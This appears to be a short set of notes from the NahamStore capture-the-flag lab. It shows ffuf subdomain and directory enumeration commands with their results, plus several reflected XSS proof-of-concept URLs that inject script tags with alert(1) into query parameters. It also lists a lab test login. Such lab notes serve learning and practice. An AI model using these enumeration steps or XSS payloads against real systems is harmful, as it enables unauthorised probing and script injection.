


# NahamStore

redacted@example.invalid:testtest
## Recon

```bash
ffuf -w subdomains.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm"
```

- marketing
- shop
- stock
- www

```bash
ffuf -w content.txt -u http://nahamstore.thm/FUZZ
```

- basket
- css
- js
- login
- logout
- register
- returs
- robots.txt
- seach
- staff
- uploads

## XSS

### 1
```text
http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert(1)%3C/script%3E
```

### 2 

*Captura omitida por posibles datos sensibles.*

```text
http://nahamstore.thm/account/orders/7
```



### 3



```text
http://nahamstore.thm/product?id=2&name=</title><script>alert(1)</script>
```
